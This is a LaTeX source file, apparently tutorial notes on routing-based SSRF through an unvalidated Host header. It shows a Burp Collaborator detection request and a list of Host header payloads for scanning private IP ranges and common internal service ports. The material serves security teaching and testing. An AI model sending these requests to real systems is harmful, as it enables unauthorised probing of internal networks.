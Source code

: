 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Routing-Based SSRF via Host Header}

\subsubsection{What is Routing-Based SSRF?}
Routing-based SSRF relies on exploiting intermediary components like load balancers and reverse proxies that are prevalent in cloud-based architectures.

\subsubsection{Attack Vector}
These components sit in a privileged network position, receiving requests from the public web while having access to much of the internal network. If they are insecurely configured to forward requests based on an unvalidated Host header, they can be manipulated into misrouting requests to arbitrary systems.

\subsubsection{Detection Using Burp Collaborator}
\begin{lstlisting}
GET https://vulnerable-website.com/ HTTP/1.1
Host: BURP-COLLABORATOR-SUBDOMAIN

# If you receive a DNS lookup from the target server
# or another in-path system, this indicates you may be
# able to route requests to arbitrary domains
\end{lstlisting}

\subsubsection{Internal Network Scanning}
Having confirmed manipulation of an intermediary system, the next step is to access internal-only systems:

\begin{lstlisting}[caption=Internal IP Scanning]
# Scan private IP ranges
GET https://vulnerable-website.com/ HTTP/1.1
Host: 192.168.0.1

# CIDR notation examples:
# 192.168.0.0/16 (192.168.0.0 - 192.168.255.255)
# 10.0.0.0/8 (10.0.0.0 - 10.255.255.255)
# 172.16.0.0/12 (172.16.0.0 - 172.31.255.255)

# Common internal services
Host: 192.168.0.1:8080     # Proxy
Host: 192.168.0.1:6379     # Redis
Host: 192.168.0.1:5432     # PostgreSQL
Host: 192.168.0.1:3306     # MySQL
Host: 192.168.0.1:22       # SSH
Host: 192.168.0.1:443      # HTTPS
Host: 192.168.0.1:5000     # Flask/Docker
Host: 192.168.0.1:9200     # Elasticsearch
Host: 192.168.0.1:9090     # Prometheus
\end{lstlisting}
\end{document}
